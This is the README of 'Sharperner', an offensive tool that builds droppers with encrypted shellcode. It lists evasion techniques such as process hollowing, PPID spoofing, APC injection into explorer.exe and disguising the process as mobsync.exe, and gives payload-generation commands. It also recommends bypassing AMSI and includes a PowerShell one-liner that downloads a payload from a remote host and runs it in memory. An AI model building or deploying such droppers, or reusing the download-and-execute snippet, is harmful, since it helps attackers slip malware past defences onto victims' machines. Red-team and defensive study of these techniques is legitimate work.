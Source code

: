 # Sharperner
**Sharperner** is a tool written in CSharp that generate .NET dropper with AES and XOR obfuscated shellcode. Generated executable can possibly bypass signature check but I cant be sure it can bypass heuristic scanning. 

![](./src/images/scan.PNG)

## Features
### Native C++ binary
* Process Hollowing
* PPID Spoofing
* Random generated AES key and iv
* Final Shellcode, Key and IV are translated to morse code

### DLL 
* Spawn as mobsync.exe
* Random generated AES key and iv
* Final Shellcode, Key and IV are translated to morse code

### .NET binary
* AES + XOR encrypted shellcode
* APC Process Injection (explorer.exe)
* Random function names
* Random generated AES key and iv
* Final Shellcode, Key and IV are translated to morse code

Sharperner now supports /convert functionality which will convert native binary/PE and manually mapped into .NET executable by using @SharpSploit library. This might be useful for reflective loading (execute-assembly)

## Usage
```
/file       B64,hex,raw 
/type       cs,cpp,dll
/out        Output file Location. (Optional)
/save       Keep pre compiled code. (Optional)

/convert    File input
            (Embed native executable to .NET Assembly using Manual Mapping)

Example:
Sharperner.exe /file:file.txt /type:cs
Sharperner.exe /file:file.txt /out:payload.exe /save
Sharperner.exe /convert:file.exe
```

## Caveat
* Install .NET 3.5 if Dlllauncher project throws errors. ([Download](https://www.microsoft.com/en-us/download/details.aspx?id=21))
* Make sure to have `msbuild.exe` in place to compile projects
* Native C++ payload might not work with long shellcode. Stageless likely won't work.

## Suggestion
To avoid touching the disk, Generated .NET executable can be loaded reflectively with powershell. AMSI is the enemy now, [amsi.fail](https://amsi.fail) ftw!
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/payload.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[TotallyNotMal.Program]::Main()
```

## References
* https://github.com/cobbr/SharpSploit
* https://github.com/fireeye/DueDLLigence
* https://github.com/cribdragg3r/Alaris
